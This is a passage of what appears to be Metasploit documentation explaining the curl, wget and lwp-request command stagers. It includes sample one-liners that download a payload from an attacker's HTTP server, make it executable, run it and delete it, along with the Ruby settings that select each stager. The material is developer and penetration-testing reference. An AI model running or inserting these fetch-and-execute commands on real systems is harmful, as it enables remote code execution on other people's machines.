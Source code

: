 ## cURL Command Stager - Multi Platform

The [cURL](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/curl.rb) command stager uses the `curl` command on the target host to download the payload file. It requires users to specify a `SRVHOST` and `SRVPORT` values and will start an HTTP server to host the payload file. An example of that looks similar to this:

```
curl -so /tmp/dtNGlaaL http://10.5.135.201:8080/mdkwKcdGCtU;chmod +x /tmp/dtNGlaaL;/tmp/dtNGlaaL;rm -f /tmp/dtNGlaaL"
```
To use the cURL stager, either specify your CmdStagerFlavor in the metadata:

```ruby
'CmdStagerFlavor' => [ 'curl' ]
```

Or set the :curl key to `execute_cmdstager`:

```ruby
execute_cmdstager(flavor: :curl)
```


## wget Command Stager - Multi Platform

The [wget](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/wget.rb) command stager is similar to the curl command stager, except instead of using curl to download the file on the target host, it uses the `wget` command. It requires users to specify a `SRVHOST` and `SRVPORT` values and will start an HTTP server to host the payload file. An example of that looks similar to this:

```
wget -qO /tmp/MZXxujch http://10.5.135.201:8080/mdkwKcdGCtU;chmod +x /tmp/MZXxujch;/tmp/MZXxujch;rm -f /tmp/MZXxujch
```

To use the wget stager, either specify your CmdStagerFlavor in the metadata:

```ruby
'CmdStagerFlavor' => [ 'wget' ]
```

Or set the :wget key to `execute_cmdstager`:

```ruby
execute_cmdstager(flavor: :wget)
```


## LWP Request Command Stager - Multi Platform

The [lwp-request](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/lwprequest.rb) command stager is similar to the curl command stager, except instead of using curl to download the file on the target host, it uses the `lwp-request` command. It requires users to specify a `SRVHOST` and `SRVPORT` values and will start an HTTP server to host the payload file. An example of that looks similar to this:
